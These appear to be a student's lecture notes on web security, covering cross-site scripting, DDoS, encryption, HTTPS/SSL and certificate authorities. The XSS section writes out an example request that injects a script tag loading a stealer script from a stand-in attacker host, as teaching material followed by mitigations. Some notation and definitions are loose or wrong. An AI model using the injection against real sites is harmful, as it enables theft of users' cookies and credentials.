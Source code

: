 # Web Security Lecture

## Notes

Cross Site Scripting:

- Attacker inserts arbitrary HTML on web page
    - How can this ever happen?

- What can go wrong
    - Change content of page
    - Steal user's info

- What if HTML includes < script > tags?
    - Replace page w/ new one
        - Fake instance of page 2 get passwords, accounts, etc.
    
    - Pass info from page to foreign page
        - Cookies, passwords, credit card numbers, session IDs
    
    - Download user's cookies (passwords) for other sites.

How?

- Request:
GET/welcome.php?name=Robbie20%Culkin

Host www.vulnerable.site

- Response: 
< HTML >
    < Title > Welcome! < /Title >
    Hi Robbie Culkin
    < br >
    Welcome to our system
    ...
< /HTML >

Attacker provides link & victim, upon clicking it, will generate request to www.vulnerable.site as follows:

GET/welcome.php?name=< script >src="http://attacker.com/auth.stealer.js"< /script >
Host: www.vulnerable.site

Response:
< HTML >
    < Title >Welcome!< /Title >
    Hi < script >
    src="http://attacker.com/auth.stealer.js"
    < /script >
    < br >
Welcome to our system
...
< /HTML >

Victim's client browser interprets response as HTML page containing piece of malicious JavaScript code.

Mitigation:
- Don't allow any HTML to be inserted.
    - Backend libraries to strip out HTML tags

- Don't allow malicious HTML to be inserted
    - Backend libraries to sanitize HTML
        - Limited set of allowed formatting tags

- Similar techniques may be used to protect against SQL injection.

Distributed Denial of Service (DDoS):

Overwhelm server w/ malicious requests to block regular users.

- Requests don't come from 1 machine
    - Easily blocked

- Attacker uses # of controlled machines, often compromised
    - Hard to spot

Mitigation:
- Rate limiting
    - Limit volume of requests from a user

- Throw out excess traffic @ random
    - Some malicious, some legitimate

- Distribute traffic across network
    - By distributing load, can accommodate huge volume.

Network Security:

- Send requests: GET/POST
- Send responses: HTML documents
- Network channels not necessarily secure

- Confidentiality: What if someone interprets & reads message?
- Integrity: What if someone intercepts & alters message?

Secure Communication:

- Anyone other than interpreted recipient, we want our message to be:
    - Unreadable
    - Impossible to change w/o detection

- Encryption function:
    -F(X) = Y easy to compute
    -F(Y)^-1 = X difficult to compute (w/o additional knowledge)

Encryption & Decryption:

- Encryption
    - Ensures privacy w/in organization & be on Internet
    - Conversion of data into unreadable form, called ciphertext

- Decryption
    - Process of converting ciphertext back into its OG form, called plaintext or cleartext, so it can be understood.

- Requires algorithm key.

Types:

- 2 encryption types:
    - Symmetric-key Encryption
    - Asymmetric-key Encryption

- SSL (Secure Sockets Layers)
    - Uses both encryption types
    - Provides 4 secure transmission of data on Internet

Browser-Server Communication:

- Can use encrypted communication in a web app
    - HTTPS represents encrypted (secure) connection

- HTTPS secure HTTP
    - Data passed back & forth encrypted
    - Browser & server agree on key
    - Encryption's then done based on key
    - Handled by Secure Sockets Layer (SSL)

HTTPS Connections:

- Browser makes connection to server
- SSL handshake protocol
    - Browser sends & requests certificate
        - Certificates effectively keys can be verified as authentic
        - This is 1 way public key systems r used.
    
    - Server replies w/ certificate of its own

- SSL change cipher protocol
    - Browser & server use their certificates to agree on key
    - Again using variant of public key systems

- Communication done securely using key (symmetric key encryption)
    - Key only used for particular session

HTTPS usage:

- If sending confidential info
    - Passwords
    - Payment info
    - Should use HTTPS

- OpenSSL & other implementations exist
    - Typically built into server & browser
    - Different port used 4 secure communication

Secure Socket Layer (SSL):

- Protocol allows data to be privately exchanged over public networks
- Developed by Netscape
- Encrypts data sent b/w client (usually Web browser) & Web server
- Utilizes both symmetric & asymmetric keys.
- "https" http over SSL
- Browsers display "lock" icon

- Provides secure communication b/w client & server by using:
    - Server & client digital certificates 4 authentication
    - Symmetric-key cryptography using "session key" 4 bulk encryption
    - Public-key cryptography 4 transfer of session

Digital Certificate:

- Form of assymetric key
- Also contains info about certificate, holder of certificate & issuer of certificate
- Used by SSL to authenticate identity of web server

Content includes:
    - Public key
    - Effective date of certificate
    - Expiration date of certificate
    - Details about Certificate Authority--issuer of certificate
    - Details about certificate holder
    - Digest of certificate content

Certificate Authority:

- Trusted 3rd-party organization or company issued digital certificates
- Well-known Certificate Authorities:
    - IdenTrust
    - DigiCert
    - GTS

CA Communication Process:

- Web server sends its public key w/ its certificate.
- Browser checks that certificate was issued by trusted CA, that certificate's still valid & certificate's related to site contacted.
- Browser then uses public key to encrypt random symmetric encryption key & sends it to server w/ encrypted HTTP request.
- Web server decrypts symmetric encryption key using its private key & uses symmetric key to decrypt HTTP request.
- Web server sends back requested HTML document & HTTP data encrypted w/ symmetric key.
- Browser decrypts HTTP data & HTML document using symmetric key & displays key info.